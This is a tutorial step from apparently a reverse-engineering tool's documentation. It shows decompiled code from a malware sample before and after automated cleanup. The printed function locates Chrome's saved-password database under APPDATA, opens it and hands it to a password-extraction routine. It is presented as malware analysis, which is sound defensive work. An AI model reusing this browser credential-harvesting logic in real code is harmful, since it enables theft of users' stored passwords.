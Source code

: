 ### Step 2.2: Enhance Critical Functions
```bash
# Enhance the credential stealing function
reveng enhance-code analysis_malware/decompiled/steal_chrome_creds.c \
  --function-name steal_chrome_creds \
  --output enhanced/steal_chrome_creds.c
```

**Before Enhancement (Raw Ghidra):**
```c
int sub_401500(void) {
    char *v1;
    int v2;
    void *v3;
    char v4[260];

    v1 = getenv("APPDATA");
    sprintf(v4, "%s\\Google\\Chrome\\User Data\\Default\\Login Data", v1);
    v3 = sqlite3_open(v4, &v2);
    // ... more cryptic code
}
```

**After Enhancement:**
```c
/* Steal credentials from Chrome browser
 * Returns: Number of credentials extracted
 */
int steal_chrome_credentials(void) {
    char *appdata_path;
    int sqlite_result;
    sqlite3 *database_handle;
    char chrome_db_path[260];

    // Build path to Chrome's Login Data database
    appdata_path = getenv("APPDATA");
    sprintf(chrome_db_path, "%s\\Google\\Chrome\\User Data\\Default\\Login Data",
            appdata_path);

    // Open SQLite database containing saved passwords
    sqlite_result = sqlite3_open(chrome_db_path, &database_handle);
    if (sqlite_result != SQLITE_OK) {
        return 0;  // Database not found or locked
    }

    // Query all login credentials from 'logins' table
    // Columns: origin_url, username_value, password_value
    return extract_and_decrypt_passwords(database_handle);
}
```

**Claude Now Understands:**
- Exact file path targeted
- SQLite database operations
- Function call hierarchy
- Error handling logic

---